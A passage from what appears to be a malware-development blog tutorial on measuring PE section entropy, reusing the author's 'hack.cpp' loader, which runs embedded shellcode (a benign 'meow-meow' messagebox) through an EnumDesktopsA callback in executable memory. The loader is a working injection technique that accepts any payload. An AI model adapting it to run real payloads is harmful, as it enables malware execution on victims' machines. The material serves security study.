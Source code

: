 For simplicity and demonstration purposes this calculate and print just first 3 sections.     

### demo 2

As an sample file I used one of my malware from [this post](/tutorial/2022/06/27/malware-injection-20.html):      

```cpp
/*
 * hack.cpp - run shellcode via EnumDesktopA. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Run updated script:     

```bash
python3 entropy -f ./hack.exe
```
